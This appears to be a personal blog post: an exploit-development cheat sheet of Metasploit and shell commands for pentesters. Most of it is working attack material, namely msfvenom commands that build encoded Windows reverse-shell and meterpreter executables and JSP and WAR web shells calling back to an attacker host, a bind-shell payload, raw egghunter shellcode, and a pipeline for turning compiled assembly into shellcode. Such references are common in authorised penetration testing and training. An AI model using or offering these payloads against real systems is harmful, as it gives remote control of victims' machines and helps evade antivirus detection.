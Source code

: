 ```yaml
---
layout: post
title: Exploit Dev Command Sheet
---
```


<div class="message"> 
Hey, thought of adding few useful commands that I've been using frequently during pentest engagments and exploit developments.
</div>

### Metasploit Commands
* MSF unique pattern 

> Create new pattern to find the offset, useful during Exploit Dev.


{% highlight js %}
cd /usr/share/metasploit-framework/tools/
./pattern_create -l 2000
./pattern_offset -q PATTERN
{% endhighlight %}


* MSFvenom

> Arch(-a), Platform(- -platform), Payload(-p), encoder(-e), 
Encode-Iteration(-i), Bad-chars(-b), Output Format(-f), OutPut-File(-o)


{% highlight js %}
msfvenom -l payloads
msfvenom --help-formats

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=<UR IP> LPORT=<PORT> -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 2 -f python

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<UR IP> LPORT=<PORT> -e x86/shikata_ga_nai  -b '\x00\x0a\x0d' -f exe -o myshell.exe

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<UR IP> LPORT=<Port> -f raw > jspshell.jsp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<UR IP> LPORT=<Port> -f war > myshell.war

msfvenom -p windows/shell_bind_tcp LPORT=4321 -e x86/shikata_ga_nai -b "\x00\x0d\x0a" -i 3 -f c
{% endhighlight %}

-----

* EggHunter

> Basically this will loop through the memory and searches for the string “w00t"(\x77\x30\x30\x74). Once it finds the string or the egg "w00t" one after the other "w00tw00t" in memory, it will break out of the loop and continous to execute the shellcode placed immediatley after "w00tw00t".


{% highlight js %}
Egg "w00t" = "\x77\x30\x30\x74" 

"\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x5A\x74\xEF\xB8\x77\x30\x30\x74\x8B\xFA\xAF\x75\xEA\xAF\x75\xE7\xFF\xE7"
{% endhighlight %}

-----

* Compiling & generate shellcode from binary

> Create a new assembly file like "myfile.nasm" and generate an object file by compiling the assembly file.
Then use "objdump" to extract the shellcode out from the generated object file "myobj.o".


{% highlight js %}
nasm -f elf32 -o myobj.o myfile.nasm

objdump -d filename.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
{% endhighlight %}

-----



